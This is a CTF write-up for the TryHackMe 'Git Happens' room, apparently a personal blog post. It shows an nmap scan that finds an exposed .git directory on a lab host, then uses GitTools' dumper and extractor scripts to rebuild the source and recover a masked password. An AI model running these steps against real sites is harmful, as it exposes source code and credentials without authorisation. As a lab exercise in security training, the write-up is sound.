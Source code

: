 ```yaml
---
title: "Git Happens - TryHackMe"
author: Ludovic COULON
date: 2020-08-21
hero: ./images/hero.png
excerpt: "Writeup for the Git Happens room"
---
```


[TryHackMe | Git Happens](https://tryhackme.com/room/githappens)

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

Can you find the password to the application?

---

### Setup

```bash
└──╼ $ nmap -A -T4 10.10.58.41
```

```bash
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git:
|   10.10.58.41:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As you can see the nmap scan found a ".git" repertory on the website, let's use some tools to get all the data.

[internetwache/GitTools](https://github.com/internetwache/GitTools)

<div className="Image__Medium">
	<img src="https://i.imgur.com/XXygrPA.png" alt="blog_image" />
</div>

```bash
└──╼ $ ./gitdumper.sh http://10.10.58.41/.git/ .
```

Once the dumper script get all the data let's use the extractor script to have all the source code.

<div className="Image__Medium">
	<img src="https://i.imgur.com/8DyZR2H.png" alt="blog_image" />
</div>

```bash
└──╼ $ ./extractor.sh ~/Desktop/TryHackMe/git-thm/GitTools/Dumper/ .
```

<div className="Image__Medium">
	<img src="https://i.imgur.com/a53y7oc.png" alt="blog_image" />
</div>

As you can see the script created some directory, let's see if the password is in there.

### **#1 Find the Super Secret Password**

<div className="Image__Medium">
	<img src="https://i.imgur.com/SzdvdmG.png" alt="blog_image" />
</div>

```bash
Th**_**_*_****_****_******_*******!
```



